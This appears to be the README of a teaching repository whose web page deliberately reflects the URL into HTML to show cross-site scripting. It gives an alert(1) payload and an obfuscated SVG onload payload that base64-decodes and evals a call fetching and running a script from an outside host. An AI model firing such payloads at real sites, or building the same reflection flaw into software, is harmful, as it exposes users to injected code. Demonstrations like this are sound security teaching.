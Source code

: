 # XSS-Demo

This is a simple page with some example content (borrowed from W3Schools), that has a deliberate Cross Site Scripting vulnerability. It reflects the URL down into HTML.

The barebones page can be seen using rawgit at: https://rawgit.com/sdclibbery/XSS-Demo/master/index.html

A simple XSS example using the page: https://rawgit.com/sdclibbery/XSS-Demo/master/index.html?%3Cscript%3Ealert(1)%3C/script%3E

Or more fun: https://rawgit.com/sdclibbery/XSS-Demo/master/index.html?%3Csvg/onload=eval(atob(%60JC5nZXRTY3JpcHQoJ2h0dHBzOi8vZGluaXNjcnV6LmdpdGh1Yi5pby9YU1MtUG9jcy9wb2NzL2RhbmNlLXhzcy5qcycp%60))%3E
(With thanks to Dinis Cruz http://blog.diniscruz.com/ for the payload :-)
